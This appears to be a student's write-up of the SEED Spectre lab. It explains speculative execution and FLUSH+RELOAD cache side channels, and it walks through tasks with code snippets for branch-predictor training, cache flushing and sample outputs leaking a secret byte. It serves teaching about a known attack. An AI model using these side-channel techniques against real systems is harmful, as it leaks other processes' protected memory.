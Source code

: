 # Spectre Attack Lab

First, let's go over some **concepts**:

1. **Speculative Execution:** CPU predicts the outcome of an operation and begins executing instructions ahead of time to improve performance. If the prediction is wrong, the CPU *discards the results.* (It can lead to security risks, like `Spectre` and `Meltdown`).

2. **Out-of-order Execution:** CPU executes instructions in a different order to optimize resource usage, without predicting outcomes.

3. **Side Channels:** Indirect ways through which sensitive information can be leaked, such as through *timing*, power use, or electromagnetic emissions, allowing attackers to gain access to data *without directly interacting with the system.*

- Watch this [Youtube video](https://youtu.be/syAdX44pokE?si=l5CXhKV4GIKLq6iF) for a good visual explaination.

## What are Spectre & Meltdown Attacks?
| **Aspect**| **Spectre**| **Meltdown**|
|-----|-----|-----|
| **Vulnerability**     | Exploits speculative execution in CPUs.    | Exploits memory isolation in CPUs.      |
| **Target**            | Can affect multiple processes.            | Primarily affects kernel memory.        |
| **Attack Method**     | Tricks CPU into executing unintended instructions. | Allows reading privileged kernel memory. |
| **Impact**            | Leaks sensitive data across processes.    | Allows attackers to read kernel data.   |
| **Mitigation**        | Requires both software and hardware fixes. | Requires software patches for isolation.|
| **Scope**             | More complex, can target a wider range of systems. | Easier to exploit, more directly impacts system memory. |

Check out these videos that explain the attacks very well: 
1. [Meltdown & Spectre vulnerabilities - Simply Explained](https://youtu.be/bs0xswK0eZk?si=TqQPM8AXiF7c8ty_)
2. [Spectre & Meltdown - Computerphile](https://youtu.be/I5mRwzVvFGE?si=fWR-EvfntkoAs7MK)
3. [Spectre attack explained like you're five](https://youtu.be/q3-xCvzBjGs?si=JGkivo4Ve6gdYRwL)
4. [Meltdown explained like you're five](https://youtu.be/JSqDqNysycQ?si=xuaS4rGSKK-GHHXH)

## Task 1: Reading from Cache versus from Memory:

Both the Meltdown and Spectre attacks **use CPU cache as a side channel** to steal a protected secret.

![CPU Cache hit & miss](https://github.com/moooninjune/SEED-labs/blob/cca8d6b2b747d2d3b4be1f9681d3da227fc873b9/images/lab5-CPU-Cache.jpg)

1. Compile and run the `CacheTime.c` file.

2. Which elements from the array are in the cache?

    The accesses of array[3\*4096] and array[7\*4096] are extremely *faster* than that of the other elements because they're being brought from the cache.

3. Run the program at least 10 times and describe your observations.

    The access times of each element seems to be randomly various among 10 attempts.


## Task 2: Side Channel Attacks via CPU Caches:
The objective of this task is to use the **side channel** to extract a secret value used by the victim function that uses a secret value as index to load some values from an array.

The technique that we will be using is called `FLUSH+RELOAD`.

![Side-Channel-Attack](https://github.com/moooninjune/SEED-labs/blob/f4bce5cd3b29ddd107bbcd313205e83f8793b04a/images/lab5-sidechannel-attack.jpg)

1. **Flush** the array from the cache to ensure it's not cached (Empty the cache).

2. Call the victim function, which accesses an array element based on the secret, causing it to be cached.

3. **Reload** the array and measure the **time** for each element. A fast reload time indicates the element is cached, revealing the accessed element and the secret value.

Compile and run the `FlushReload.c` file.
```bash
# output
array[94*4096 + 1024] is in cache.
The Secret = 94.
```

- Run the program for at least 20 times, and count how many times you will get the secret correctly. 

- You can also adjust the threshold `CACHE_HIT_THRESHOLD` to the one derived from Task 1 (80 is used in this code).

## Task 3: Out-of-Order Execution and Branch Prediction:

CPU makers made a severe mistake in the design of the out-of-order execution. They wipe out the effects of the out-of-order execution on registers and memory if such an execution is not supposed to happen, so the execution does not lead to any visible effect. However, **they forgot one thing, the effect on CPU caches.**

During the out-of-order execution, the referenced memory is fetched into a register and is **also stored in the cache.** If the results of the out-of-order execution have to be discarded, the caching caused by the execution should also be discarded.

```cpp
//example
data = 0;
if (x < size) {
data = data + 5;
```
![Speculative execution (out-of-order execution)](https://github.com/moooninjune/SEED-labs/blob/fae6a264028f8e57d019e8a3664261470cfaee16/images/lab5-speculative-execution.jpg)

1. If we'd like a particular branch to be taken in a speculative execution, we should train the CPU, so our selected branch can become the prediction result. In the code `SpectreExperiment.c`, we trained the CPU through the `for` loop:
```c
// Train the CPU to take the true branch inside victim()
for (i = 0; i < 10; i++)
victim(i);
```

2. We invoked `victim()` with a small argument (from 0 to 9). These values are less than the value `size`, so the true-branch of the `if-condition` is always taken.
```c
void victim(size_t x)
{
if (x < size) //this is the branch (if-condition)
temp = array[x * 4096 + DELTA]; //this is the output
}
```

3. Once the CPU is trained, we pass a larger value (97) to the `victim()` function. This value is larger than `size`, so the false-branch of the if-condition inside `victim()` will be taken in the *actual* execution. However, we have flushed the variable `size` from the memory, so getting its value from the memory may take a while. **This is when the CPU will make a prediction, and start speculative execution.**
```c
// Exploit the out-of-order execution
_mm_clflush(&size);
for (i = 0; i < 256; i++)
    _mm_clflush(&array[i*4096 + DELTA]);
victim(97);
```

- Compile and run the `SpectreExperiment.c` file.
```bash
# output
array[97*4096 + 1024] is in cache.
The Secret = 97.
```
    Because 97 >= size, the `if-condition` inside the `victim()` function should not be executed. But, it works!

4. Comment out the following line and execute again.
```c
_mm_clflush(&size);
```
    It'll output nothing. The function `_mm_clflush()` flushes all content in caches that contains variable `size`, which ensure the cache is not influenced by `size` during each call of `victim`.

5. Replace `victim(i);` inside the `for` loop with `victim(i + 20);`, and run the code again.
```c
// Train the CPU to take the true branch inside victim()
for (i = 0; i < 10; i++)
//victim(i);
victim(i + 20);
```
    It also fails to give any output. Because when `i > size`, the statement will be not executed.


## Task 4: The Spectre Attack:

- Compile and run the `SpectreAttack.c` file.
```bash
# output
secret: 0x55b0913f5008 
buffer: 0x55b0913f7018 
index of secret (out of bound): -8208 
array[0*4096 + 1024] is in cache.
The Secret = 0().
array[83*4096 + 1024] is in cache.
The Secret = 83(S).
```

## Task 5: Improve the Attack Accuracy:

- Compile and run the `SpectreAttackImproved.c` file.
```bash
# output
Reading secret value at index -8208
The secret value is 83(S)
The number of hits is 106
```

## Task 6: Steal the Entire Secret String:
In the previous task, we just read the first character of the secret string. In this task, we need to print out **the entire string** using the Spectre attack.

- Please write your own code or extend the code in Task 5:
```c

```